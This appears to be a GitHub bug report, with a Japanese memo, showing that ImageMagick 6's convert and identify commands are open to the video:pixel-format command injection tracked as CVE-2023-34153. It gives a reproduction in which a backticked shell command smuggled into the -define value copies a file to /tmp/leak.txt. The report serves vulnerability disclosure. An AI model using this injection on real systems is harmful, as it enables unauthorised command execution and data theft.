 6系のバージョンで確認する場合のメモ

### ImageMagick version
```
convert -version                                                                                
Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org
```
7以降はmagick <option>を使用、6系はconvert,dentifyなどのコマンドを使う。（すでにある7.0のイシューと違うのはそこだけ）。
  
ImageMagick 7.0 use command magick <option> insted of  6.0 convert,dentify,etc.


### Operating system
Linux


### Steps to Reproduce
Given a normal video file, namely test.mov, the following demonstrates how command injection happens.

  
```
/data/home/test/exp
➜ echo 'deadbeef' > test.txt

/data/home/test/exp
➜ dentify -define video:pixel-format="rgba `cat test.txt > /tmp/leak.txt`" test.mov >info.log 

/data/home/test/exp
➜ tail info.log
test.mov[20] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.028
test.mov[21] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.026
test.mov[22] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.024
test.mov[23] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.022
test.mov[24] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.021
test.mov[25] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.018
test.mov[26] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.017
test.mov[27] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.014
test.mov[28] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.013
test.mov[29] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 33.0075MiB 0.020u 0:00.011

/data/home/test/exp
➜ cat /tmp/leak.txt
deadbeef
```

### Appendix
https://github.com/advisories/GHSA-7c5r-cghm-f2jx

https://github.com/ImageMagick/ImageMagick/issues/6338

https://nvd.nist.gov/vuln/detail/CVE-2023-34153

https://imagemagick.org/script/identify.php
